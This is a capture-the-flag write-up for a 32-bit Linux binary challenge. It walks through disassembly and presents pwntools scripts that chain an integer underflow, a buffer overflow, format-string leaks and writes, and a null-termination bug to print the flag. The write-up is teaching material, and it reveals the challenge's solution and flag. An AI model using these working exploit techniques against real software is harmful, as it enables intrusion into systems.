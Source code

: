 # Defense In Depth

## Authors

- Jarrod Cameron

## Category

- Binary

## Description

My lecturer said having a single point of failure is bad so I've added lots of layers! Finding one vulnerability won't be enough to get the flag this time!

`nc pwn.unswsecurity.com 5001`

## Difficulty

- Child's Play

## Points

420

## Files

- vuln: The binary running on the server

## Solution

<details>
<summary>Spoiler</summary>

### Idea

By chaining several vulnerabilities, the program can be exploited to read the
flag into memory then will print it. Some of the bugs/vulnerabilities are:

- Interger underflow
- Buffer overflows
- Format strings
- Null termination errors

### Walkthrough

#### 1. Initial Reconnaissance

Lets start by checking out the file:

```
$ file ./vuln
./vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=954438e1e53db31cc4756dab1a4b626f21c051f2, for GNU/Linux 3.2.0, not stripped

$ pwn checksec ./vuln
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

$ ./vuln
>>
Option does not exist
+----------------------+
|    * Help Menu *     |
| 1 -> set name        |
| 2 -> print name      |
| 3 -> read the flag   |
| 4 -> print this help |
| 5 -> quit            |
+----------------------+
```

From the above output we can see that a few security mitigations are in place.
Also, running the program and pressing the "enter" key displays the menu.

#### 2. Static Analysis: `set_name()`

If we have a look at the `set_name()` function in radare2 the following part of
the disassembly can be seen:

```
                      │ 0x000013aa 8d45f0         lea eax, [var_10h]                  │
                      │ 0x000013ad 50             push eax                            │
                      │ 0x000013ae 8d83a8e0ffff   lea eax, [ebx - 0x1f58]             │
                      │ ; const char *format                                          │
                      │ 0x000013b4 50             push eax                            │
                      │ ; int scanf(const char *format)                               │
                      │ 0x000013b5 e816feffff     call sym.imp.__isoc99_scanf;[oc]    │
                      │ 0x000013ba 83c410         add esp, 0x10                       │
                      │ 0x000013bd 8b45f0         mov eax, dword [var_10h]            │
                      │ 0x000013c0 83f840         cmp eax, 0x40                       │
                      │ 0x000013c3 7614           jbe 0x13d9                          │
                      └───────────────────────────────────────────────────────────────┘
                              f t
                              │ │
                              │ └───────────────────────────┐
┌─────────────────────────────┘                             │
│                                                           │
```

We can see that the call to `scanf()` looks like `scanf("%u", &var_10h)` (since
`[ebx - 0x1f58]` evaluates to `%u`). After that there is a check to see if
`var_10h` is greater than 0x40 (64), if so then the function returns early. If
the check is passed then the following basic block is executed:

```
            │
        ┌───────────────────────────────────────────────────────┐
        │ [snip]                                                │
        │ 0x000013eb 8b45f0         mov eax, dword [var_10h]    │
        │ 0x000013ee 83e801         sub eax, 1                  │
        │ 0x000013f1 83ec04         sub esp, 4                  │
        │ 0x000013f4 50             push eax                    │
        │ 0x000013f5 8d83a0000000   lea eax, [ebx + 0xa0]       │
        │ 0x000013fb 50             push eax                    │
        │ ; int fildes                                          │
        │ 0x000013fc 6a00           push 0                      │
        │ ; ssize_t read(int fildes, void *buf, size_t nbyte)   │
        │ 0x000013fe e82dfdffff     call sym.imp.read;[of]      │
        │ [snip]                                                │
        └───────────────────────────────────────────────────────┘
            v
            │
```

From the above basic block it can be seen that `read()` is called with the
following arguments: `read(0, &ebx[0xa0], var_10-1)`.

This is a very obvious integer underflow since `var_10` can easily be set to
zero!

This means we can trigger a buffer overflow at `&ebx[0xa0]`, however we need to
know more about the application before exploiting it.

#### 3. Static Analysis: `print_help()`

Next, lets look at the `print_help()` function (the function that is used when
printing the help menu).

```C
static
void
print_help(void)
{
	char buf[256] = {0};
	if (strchr(&ebx[0xe0], '%') && strchr(&ebx[0xe0], 's'))
		return;
	snprintf(buf, sizeof(buf), "%s", &ebx[0xe0]);
	printf(buf);
}
```

On the second last line there seems to be a format string vulnerability!
However, this is only done after `&ebx[0xe0]` is copied into the `buf` array
on the stack.

To leverage this vulnerability into something useful the array `&ebx[0xe0]`
needs to overwritten with something we control. Fortunately, the buffer
overflow discovered in the previous section can be used! This can be seen
below:

```sh
$ cat hak.py
#!/usr/bin/env python3

from pwn import *

def set_name(p, length, name):
    p.recvuntil('>> ')
    p.sendline('1')
    p.sendline(length)
    p.sendline(name)


def print_help(p):
    p.recvuntil('>> ')
    p.sendline('4')
    return p.recvuntil('ZZZ')


def main(p, e):
    # append "ZZZ" to make extracting values easier
    set_name(p, '0', b'A' * 64 + b'%3$pZZZ\x00')
    banner_leak = int(print_help(p)[:-3], 16)
    log.info('&banner = ' + hex(banner_leak))


if __name__ == '__main__':
    p = process('./vuln')
    e = ELF('./vuln')
    main(p, e)
    p.close()

$ python3 hak.py
[+] Starting local process './vuln': pid 10563
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] &banner = 0x565b5080
[*] Stopped process './vuln' (pid 10563)
```

From some "trial and error" using the format string `%3$p` reveals the address
of `&ebx[0xe0]` (aka `thebanner`).

#### 4. Static Analysis: `read_flag()`

Now for the most interesting function, the `read_flag()` function. The first
basic block in this function contains the following three instructions:

```
          │ 0x0000150b 8b8380000000   mov eax, dword [ebx + 0x80]         │
          │ 0x00001511 85c0           test eax, eax                       │
          │ 0x00001513 7514           jne 0x1529                          │
          └───────────────────────────────────────────────────────────────┘
                  f t
                  │ │
```

Or in other words... If `ebx[0x80]` is zero then we follow the _false_ branch
and return. If `ebx[0x80]` is non-zero then we follow the other branch. The
other branch leads to the the following basic block.

```
            │
        ┌──────────────────────────────────────────────────────┐
        │ [snip]                                               │
        │ 0x00001547 e844fcffff     call sym.imp.open;[oe]     │
        │ 0x0000154c 83c410         add esp, 0x10              │
        │ 0x0000154f 8945f4         mov dword [fildes], eax    │
        │ 0x00001552 83ec04         sub esp, 4                 │
        │ ; size_t nbyte                                       │
        │ 0x00001555 6800010000     push 0x100                 │
        │ 0x0000155a 8d83e0010000   lea eax, [ebx + 0x1e0]     │
        │ ; void *buf                                          │
        │ 0x00001560 50             push eax                   │
        │ ; int fildes                                         │
        │ 0x00001561 ff75f4         push dword [fildes]        │
        │ ; ssize_t read(int fildes, void *buf, size_t nbyte)  │
        │ 0x00001564 e8c7fbffff     call sym.imp.read;[of]     │
        │ [snip]                                               │
        │ 0x00001572 e869fcffff     call sym.imp.close;[og]    │
        │ 0x00001577 83c410         add esp, 0x10              │
        └──────────────────────────────────────────────────────┘
            v
            │
```

The above code roughly evaluates to:

```C
int fd = open("./flag.txt", O_RDONLY);
read(fd, &ebx[0x1e0], 0x100);
close(fd);
```

This is great and all, but how do we set the `ebx[0x80]` variable to a non-zero
value? The buffer overflow (from section `2.`) since the buffer starts at
`ebx[0xa0]`. However, the format string can be used instead! Using the
following exploit the `ebx[0x80]` value can be overwritten!

```
$ cat hak.py
#!/usr/bin/env python3

from pwn import *

def set_name(p, length, name):
    p.recvuntil('>> ')
    p.sendline('1')
    p.sendline(length)
    p.sendline(name)

def read_flag(p):
    p.recvuntil('>> ')
    p.sendline('3')

def print_help(p):
    p.recvuntil('>> ')
    p.sendline('4')
    return p.recvuntil('ZZZ')

def main(p, e):

    # append "ZZZ" to make extracting values easier
    set_name(p, '0', b'A' * 64 + b'%3$pZZZ\x00')
    banner_leak = int(print_help(p)[:-3], 16)
    log.info('&banner = ' + hex(banner_leak))

    # Get the address of isadmin
    isadmin_addr = banner_leak - e.symbols['thebanner'] + e.symbols['isadmin']
    log.info('&isadmin = ' + hex(isadmin_addr))

    # overwite the "isadmin" (aka "ebx[0xa0]") variable
    set_name(p, '0', b'A' * 64 + p32(isadmin_addr) + b'%7$nZZZ\x00')
    print_help(p)

    read_flag(p)

if __name__ == '__main__':
    p = process('./vuln')
    e = ELF('./vuln')
    main(p, e)
    p.close()

$ python3 hak.py
[+] Starting local process './vuln': pid 13063
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] &banner = 0x56597080
[*] &isadmin = 0x56597020
[*] Stopped process './vuln' (pid 13063)
```

#### 5. Static Analysis: `print_name()`

So far we've managed to read the flag and store it in memory. But how do we
actually read the flag? It's so close yet so far? We can't use the `%s` format
string modifier since there is a check in `print_help()` to make sure the
string doesn't contain the characters `%` and `s`. However, there's one more
function that we haven't looked at yet.

The `print_name()` function is the most inconspicuous function in the program.
The most important part can be seen below:

```
        │ 0x00001358 8d83a0000000   lea eax, [ebx + 0xa0]               │
        │ ; const char *s                                               │
        │ 0x0000135e 50             push eax                            │
        │ ; int puts(const char *s)                                     │
        │ 0x0000135f e80cfeffff     call sym.imp.puts;[ob]              │
```

All this function does is print the buffer at `&ebx[0xa0]`. This can be used
to print the flag if there is no null terminator between `&ebx[0xa0]` (address
of our name) and `&ebx[0x1e0]` (address of the flag). This can be easily seen
with the diagram below:

```
-------------------------------------------------------------------------------
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAASKYLIGHT{...
-------------------------------------------------------------------------------
 ^                                                             ^
 |                                                             |
 |                                                             |
 Location of the name buffer                         Location of flag
```

This can be achieved using the following script:

```
$ cat hak.py
#!/usr/bin/env python3

from pwn import *

def set_name(p, length, name):
    p.recvuntil('>> ')
    p.sendline('1')
    p.sendline(length)
    p.sendline(name)

def print_name(p):
    p.recvuntil('>> ')
    p.sendline('2')

def read_flag(p):
    p.recvuntil('>> ')
    p.sendline('3')

def print_help(p):
    p.recvuntil('>> ')
    p.sendline('4')
    return p.recvuntil('ZZZ')

def main(p, e):

    # append "ZZZ" to make extracting values easier
    set_name(p, '0', b'A' * 64 + b'%3$pZZZ\x00')
    banner_leak = int(print_help(p)[:-3], 16)
    log.info('&banner = ' + hex(banner_leak))

    # Get the address of isadmin
    isadmin_addr = banner_leak - e.symbols['thebanner'] + e.symbols['isadmin']
    log.info('&isadmin = ' + hex(isadmin_addr))

    # overwite the "isadmin" (aka "ebx[0xa0]") variable
    set_name(p, '0', b'A' * 64 + p32(isadmin_addr) + b'%7$nZZZ\x00')
    print_help(p)

    # null terminator bug
    myname_len = e.symbols['flag'] - e.symbols['myname'] + 4
    set_name(p, '0', b'A' * myname_len)

    # read the flag into memory
    read_flag(p)

    # print the name, then the flag
    print_name(p)

    p.interactive()

if __name__ == '__main__':
    # NOTE: You can change this to `remote('ip', port)` to pwn it remotely
    p = process('./vuln')
    e = ELF('./vuln')
    main(p, e)
    p.close()

$ python3 hak.py
[+] Starting local process './vuln': pid 13409
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] &banner = 0x5663f080
[*] &isadmin = 0x5663f020
[*] Switching to interactive mode
How can you forget your name?
AAAA ... AAAASKYLIGHT{Ctfs_ar3_l1ke_OnIoNS!_OnIoNs_hav3_Lay3rz!}

>> $
```

### Flag

```
SKYLIGHT{Ctfs_ar3_l1ke_OnIoNS!_OnIoNs_hav3_Lay3rz!}
```

</details>
